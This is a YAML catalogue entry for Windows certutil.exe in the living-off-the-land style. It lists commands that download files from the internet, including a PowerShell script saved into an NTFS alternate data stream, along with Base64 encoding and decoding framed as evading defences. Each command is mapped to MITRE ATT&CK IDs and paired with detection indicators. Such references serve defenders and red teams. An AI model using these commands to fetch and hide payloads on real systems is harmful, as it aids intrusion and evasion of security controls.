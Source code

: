 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handeling certificates
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -encode inputFileName encodedOutputFileName
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027
    MitreLink: https://attack.mitre.org/wiki/Technique/T1027
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -decode encodedInputFileName decodedOutputFileName
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    MitreLink: https://attack.mitre.org/wiki/Technique/T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Code_Sample: 
  - Code:
Detection:
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
---
```

